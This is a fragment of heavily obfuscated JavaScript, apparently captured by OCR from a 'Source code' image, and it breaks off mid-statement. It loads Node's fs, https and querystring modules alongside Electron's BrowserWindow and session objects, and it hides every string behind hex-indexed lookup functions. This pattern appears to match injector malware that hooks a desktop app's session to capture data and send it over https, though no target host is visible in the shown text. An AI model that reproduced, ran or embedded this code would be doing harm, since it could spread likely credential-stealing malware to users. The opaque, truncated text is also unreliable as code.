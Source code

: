 args=process[_0xa86b0c(0x2f3,0x67a,0x5df,0x144,0x5fc)],fs=require('fs'),path=require(_0x22b876(0xf42,0xa28,0xa82,0xa10,0xbc5)),https=require(_0xa86b0c(0x45f,0x175,0x20b,0x2dd,0x495)),querystring=require(_0x13c7ba(0x369,0x72c,0x251,0x4dc,0x4f4)+_0x5bde47(0xa84,0x588,0x73a,0x8c0,0x715)+'g'),{BrowserWindow,session}=require(_0xa86b0c(-0x21f,-0xda,-0x4a8,-0x148,0xd4)+_0xa86b0c(0x156,-0x1a1,0x2bb,-0x207,-0x1ca)),_0x207505={};_0x207505['id']=_0x22b876(0xd41,0x70b,0xd61,0x967,0x9eb)+_0x1c5cd3(0x6f1,0x8b1,0x7c0,0x794,0xaa4)+_0x1c5cd3(0xa30,0x60b,0x971,0xa8a,0xbcf)+_0xa86b0c(-0xdd,0x2a4,0x2ab,0x5d,0xdd),_0x207505[_0x13c7ba(-0x45,0x12b,0x2e2,-0x170,0x113)]=_0xa86b0c(0x55,0x2e7,-0x1b9,0x322,0x82)+_0x22b876(0xc31,0xcce,0xab7,0x645,0x9bc)+_0x1c5cd3(0x4b7,0x3f3,0x59d,0x25b,0x3d7)+_0x22b876(0xa1c,0x80c,0x713,0x72c,0xaca),_0x207505[_0x1c5cd3(0x9f6,0x5dd,0x7e6,0x763,0x695)]=_0x1c5cd3(0xa40,0x834,0xb38,0xa79,0x796);const _0x45e40c={};_0x45e40c['id']=_0xa86b0c(0x2e8,0x373,0x1ec,0x377,-0xb4)+_0x5bde47(0x883,0x96c,0x400,0x79f,0x783)+_0x13c7ba(0x285,0xb7,0x2cd,0x118,0x464)+_0x13c7ba(-0x19d,-0x283,-0x21b,-0x184,0x11d),_0x45e40c[_0x13c7ba(-0x26,0x6e,0x330,0x45f,0x113)]=_0x5bde47(0x99d,0x871,0x4b4,0x73b,0x5d3)+_0x1c5cd3(0x73f,0x49e,0x7f7,0x6a3,0x954)+_0x22b876(0xb6e,0x9fa,0x74b,0x853,0x89a)+_0xa86b0c(0x27a,0x4e,0x5ba,0x5ec,0x311),_0x45e40c[_0x1c5cd3(0x43a,0x7b1,0x7e6,0x57f,0x784)]=_0x1c5cd3(0x1ef,0x671,0x50e,0x214,0x47b);const _0x57b40a={};_0x57b40a[_0x5bde47(0x931,0xa12,0x629,0x886,0x7c3)]=_0x207505,_0x57b40a[_0x13c7ba(0x2dd,0x3e9,0x8f1,0x571,0x65d)]=_0x45e40c;const _0x427c56={};function _0x22b876(_0x1b39c4,_0x29a933,_0x11e50c,_0x38724e,_0x591571){return _0x529c(_0x591571-0x334,_0x29a933);}_0x427c56['id']=_0x13c7ba(0x7ff,0x88d,0x839,0x5b0,0x4e2)+_0x5bde47(0x87f,0xa3d,0x80a,0x687,0x868)+_0xa86b0c(0x9e,-0xb5,0x206,0x1fc,0x23c)+_0x1c5cd3(0x7de,0x4a8,0x596,0x35d,0x402),_0x427c56[_0x5bde47(0x4db,0x5ad,0x595,0x5ff,0x553)]=_0x5bde47(0x4d0,0xa42,0x387,0x73b,0x666)+_0x22b876(0x395,0x8b7,0x950,0x5f6,0x60c)+_0x22b876(0xb5a,0xa6f,0x949,0x8ed,0xaf7)+_0x22b876(0x618,0xbd4,0x58f,0x8ba,0x8b9),_0x427c56[_0xa86b0c(0xdf,-0x24b,0x23f,0x26d,0x1d7)]=_0x5bde47(0x829,0xb57,0xd58,0xa64,0xae4);function _0x529c(_0x15aeb0,_0x7f5c0e){const _0x48be67=_0x1cbc();return _0x529c=function(_0x5ddc41,_0x5cd2f4){_0x5ddc41=_0x5ddc41-(-0xfa5+0xd73+-0x17*-0x25);let _0x251dd0=_0x48be67[_0x5ddc41];return _0x251dd0;},_0x529c(_0x15aeb0,_0x7f5c0e);}const _0x274f32={};_0x274f32[_0x1c5cd3(0xe16,0x907,0xb6a,0xf25,0xdc0)]=_0x427c56;const _0x284e35={};_0x284e35[_0x22b876(0x695,0x6fe,0x65e,0x69d,0x959)]=_0x57b40a,_0x284e35[_0x1c5cd3(0xa36,0x409,0x6e6,0x759,0x950)+'ic']=_0x274f32;const